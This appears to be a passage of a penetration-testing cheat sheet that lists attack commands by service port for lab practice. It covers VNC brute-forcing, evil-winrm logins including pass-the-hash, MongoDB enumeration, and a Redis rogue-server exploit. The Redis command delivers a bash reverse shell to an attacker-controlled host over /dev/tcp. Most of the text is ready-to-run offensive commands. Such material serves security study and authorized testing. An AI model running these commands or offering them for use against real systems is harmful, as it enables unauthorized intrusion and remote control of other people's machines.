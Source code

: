 ## VNC - 5900

```
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111

vncviewer 127.0.0.1:5000 -passwd secret

Port Forwarding Over SSH For VNC:
	Kali: ssh -L 5900:localhost:5900 root@192.168.x.x
	vncviewer localhost:5900
```

## WinRM - 5985

```
https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

## Redis - 6379

Ref: Sybaris, Wombo

```
https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis

https://github.com/vulhub/redis-rogue-getshell.git
sudo python3 redis-master.py -r 192.168.89.69 -L 192.168.49.89 -P 80 -f RedisModulesSDK/exp.so -c "bash -c 'bash -i >& /dev/tcp/192.168.49.89/8080 0>&1'"

Vulnerable versions to RCE: 4.x/5.x
Metasploit: linux/redis/redis_rce

```

## MsDeploy - 8172

```
Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```
## Port 27017 - MongoDB
https://book.hacktricks.xyz/pentesting/27017-27018-mongodb

```
nmap -sV --script "mongo* and default" -p 27017 <IP> #By default all the nmap mongo enumerate scripts are used
```
